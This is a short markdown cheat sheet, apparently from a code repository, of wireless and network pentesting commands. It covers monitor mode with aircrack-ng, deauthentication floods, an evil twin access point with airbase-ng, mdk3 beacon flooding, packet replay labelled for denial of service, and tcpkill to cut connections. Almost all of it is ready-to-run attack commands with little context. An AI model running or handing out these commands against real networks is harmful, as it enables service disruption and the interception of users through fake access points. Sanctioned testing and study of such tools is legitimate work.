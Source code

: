 Wireless Pentesting
===================

wireless interface must be in promiscuous mode

	$ apt-get install wireless-tools
	$ iwconfig   # shows all network devices and their modes

#### Packet Captures

	$ apt-get install aircrack-ng
	$ ifconfig wlan0 up              # brings up wireless card
	$ airmon-ng start wlan0          # creates interface on top of the card
	$ ifconfig                       # ensure interface mon0 has been created
	
	$ apt-get install wireshark
	$ wireshark & 

Click capture interfaces
Click start on mon0


#### Deauthentication Packets

$ aireplay-ng --deauth 0 -a [AP_MAC] -c [CLIENT_MAC] mon0 
	# mac address of SSID is found in frame control as destination


#### Evil Twin attack

	$ airmon-ng start wlan0
	$ airodump-ng mon0    # find the Access point
	$ airbase-ng -a AA:AA:AA:AA:AA:AA -e public -c 11 mon0 
	                   	  # at0 is created as faux interface
	$ ifconfig at0 up 
	$ aireplay-ng --deauth 0 -a [AP_MAC]  mon0

#### MDK (murderdeathkill)

	$ mdk3 mon0 b -n pwnsauce   # creates SSID 'pwnsauce' on mon0 broadcast on all channels


#### Packet Manipulation

	$ tcpdump -i eth0 -XX -w dump.pcap                  # capture packets in ascii and hex 
	$ tcpdump -nvvX -s0 -i  eth0 tcp portrange 22-23    # capture tcp traffic on ports 22/23

	$ dumpcap -I eth0 -a duration:30 -w file dump.pcap  # capture packets for 30 and dump to file

	$ file2cable -i eth0 -f dump.pcap                   # replay pcap from file

	$ apt-get install tcpreplay
	$ tcpreplay --topspeed --loop=0 --intf=eth0 dump.pcap --mbps=10|100|1000   
	                                                    # fuzz, dos from file

#### tcpkill

	$ apt-get install dnsiff
	$ tcpkill -i eth0 port 21     # kill outgoing ftp connection
	$ tcpkill host [IP_ADDRESS]   # kill packets arriving from or leaving ip address


